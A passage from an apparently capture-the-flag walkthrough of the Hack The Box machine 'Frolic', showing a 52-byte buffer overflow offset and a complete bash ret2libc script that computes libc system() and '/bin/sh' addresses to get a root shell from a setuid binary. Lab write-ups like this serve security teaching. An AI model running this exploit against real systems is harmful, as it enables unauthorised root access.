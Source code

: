 </a>

Here, just before EIP executes the next instruction (`ret`), notice the return address is at `0xffffd28c`, which is 52 bytes (`0xffffd28c - 0xffffd258`) away from the buffer of 100 `A`s. We can control the return address through buffer overflow!

The general exploit construct looks like this: `./rop $(perl -e 'print "A" x 52 . "<4-byte return address>"')`. Let's run the proof-of-concept with `strace`.

<a class="image-popup">
![bb1aa20b.png](/assets/images/posts/frolic-htb-walkthrough/bb1aa20b.png)
</a>

Recall that ASLR is disabled? And, because the executable is linked dynamically with `libc`, we can perform a specific ROP technique known as `ret2libc`.

Armed with this knowledge, let's write a automated exploit in `bash` to get our `root` shell.

<div class="filename"><span>ret2libc.sh</span></div>

```bash
#!/bin/bash

# Get all the addresses
TARGET="$(readlink -f $1)"
LIBC_INFO="$(ldd $TARGET | grep libc)"
LIBC_BASE="$(awk '{ print $NF }' <<<"$LIBC_INFO" | tr -cd '[x0-9a-f]')"
LIBC_FILE="$(awk '{ print $3 }' <<<"$LIBC_INFO")"
SYSTEM_OFFSET="0x$(readelf -a $LIBC_FILE | grep -m1 "system@" | awk '{ print $2 }')"
SYSTEM_ADDR="$(printf "0x%08x" $((LIBC_BASE + SYSTEM_OFFSET)))"
BIN_SH_OFFSET="$(grep -oba '/bin/sh' $LIBC_FILE | cut -d':' -f1)"
BIN_SH_ADDR="$(printf "0x%08x" $((LIBC_BASE + BIN_SH_OFFSET)))"

# Construct exploit string
RET_ADDR="$(sed -r 's/^0x(..)(..)(..)(..)$/\\x\4\\x\3\\x\2\\x\1/' <<<"$SYSTEM_ADDR")"
PAYLOAD_ADDR="$(sed -r 's/^0x(..)(..)(..)(..)$/\\x\4\\x\3\\x\2\\x\1/' <<<"$BIN_SH_ADDR")"

# Exploit
$TARGET $(perl -e "print 'A' x 52 . \"$RET_ADDR\" . \"JUNK\" . \"$PAYLOAD_ADDR\"")
```


[1]: https://www.hackthebox.eu/home/machines/profile/158
[2]: https://www.hackthebox.eu/home/users/profile/27390
[3]: https://www.hackthebox.eu/